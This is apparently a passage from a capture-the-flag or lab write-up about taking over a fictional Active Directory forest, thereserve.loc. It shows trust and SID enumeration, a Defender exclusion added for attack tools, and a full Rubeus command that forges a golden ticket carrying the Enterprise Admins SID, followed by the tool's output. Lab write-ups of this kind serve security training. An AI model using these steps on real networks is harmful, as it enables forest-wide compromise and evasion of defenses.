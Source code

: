  
 	([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
		SourceName          TargetName       TrustType TrustDirection
		----------          ----------       --------- --------------
		corp.thereserve.loc thereserve.loc ParentChild  Bidirectional

### Golden ticket 
Since we have a bidirectional trust betwween root domain and corp domain, in addition we have the hashed password of the krbtgt user, we can try to forge a <b>golden ticket</b>.
Now in order to craft a golden ticket for the trusted root domain, we need to get both the SID of child and root domain. Using powershell (as administrator)
we can get these information:

 	Import-Module ActiveDirectory
	(Get-ADForest).Domains| %{Get-ADDomain -Server $_}|select name, distinguishedname,domainsid

		name       distinguishedname            domainsid
		----       -----------------            ---------
		bank       DC=bank,DC=thereserve,DC=loc S-1-5-21-3455338511-2124712869-1448239061
		corp       DC=corp,DC=thereserve,DC=loc S-1-5-21-170228521-1485475711-3199862024
		thereserve DC=thereserve,DC=loc         S-1-5-21-1255581842-1300659601-3764024703

  
As usual I created an exclusion in Defender in <b>C:\Users\it.support\def-exc</b>.
 
I manged to transfer Rubeus (please note that to forge a golden ticket you must have version >= 2), from my attacker machine as previously done for the other tools.
To successfully forge the golden ticket on the trusted root domain, we have to append -519 to the discovered SID, since the Well-known SID/RID format is S-1-5-21-{root domain}-519. This SID identifies the Enterprise Admins group. This group exists only in the root domain of an Active Directory forest. By default, the only member of the group is the Administrator account for the forest root domain, so we must use this user in order to generate the ticket. More details can be found [here](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups). 
Following is the whole command:

 	rubeus.exe golden /rc4:zzzzzzzzzzzzzzz /domain:corp.thereserve.loc /sid:S-1-5-21-170228521-1485475711-3199862024 ^
  	/sids:S-1-5-21-1255581842-1300659601-3764024703-519 /user:Administrator /ptt
		
  		......
    		v2.3.2

		[*] Action: Build TGT
		[*] Building PAC
		[*] Domain         : CORP.THERESERVE.LOC (CORP)
		[*] SID            : S-1-5-21-170228521-1485475711-3199862024
		[*] UserId         : 500
		[*] Groups         : 520,512,513,519,518
		[*] ExtraSIDs      : S-1-5-21-1255581842-1300659601-3764024703-519
		[*] ServiceKey     : 0C757A3445ACB94A654554F3AC529EDE
		[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
		[*] KDCKey         : 0C757A3445ACB94A654554F3AC529EDE
		[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
		[*] Service        : krbtgt
		[*] Target         : corp.thereserve.loc
		...
		[*] Forged a TGT for 'Administrator@corp.thereserve.loc'
		[*] AuthTime       : 4/24/2024 1:13:24 PM
		[*] StartTime      : 4/24/2024 1:13:24 PM
		[*] EndTime        : 4/24/2024 11:13:24 PM
		[*] RenewTill      : 5/1/2024 1:13:24 PM
		[*] base64(ticket.kirbi):
		      doIF3zCCBdugAwIBBaEDAgEWooIExTCCBMFhggS9MIIEuaADAgEFoRUbE0NPUlAuVEhFUkVTRVJWRS5M...
			cnZlLmxvYw==
		[+] Ticket successfully imported!
We have imported the ticket directly in our session:
